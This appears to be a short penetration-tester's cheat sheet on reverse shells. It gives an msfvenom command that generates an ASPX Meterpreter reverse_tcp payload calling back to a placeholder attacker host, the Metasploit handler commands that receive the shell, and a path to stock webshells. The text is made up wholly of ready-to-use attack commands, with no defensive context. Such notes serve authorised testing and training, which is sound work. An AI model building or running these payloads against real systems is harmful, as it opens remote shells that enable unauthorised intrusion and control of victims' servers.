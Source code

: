 # Reverse shells

### Msfvenom

```text
# aspx
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker> LPORT=8990 -f aspx -o yelenz.aspx
```

### Catching msfvenom

```text
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set lhost <attacker>
msf5 > set lport 8990
msf5 > exploit -j
```

### Webshells

```text
/usr/share/webshells/*
```

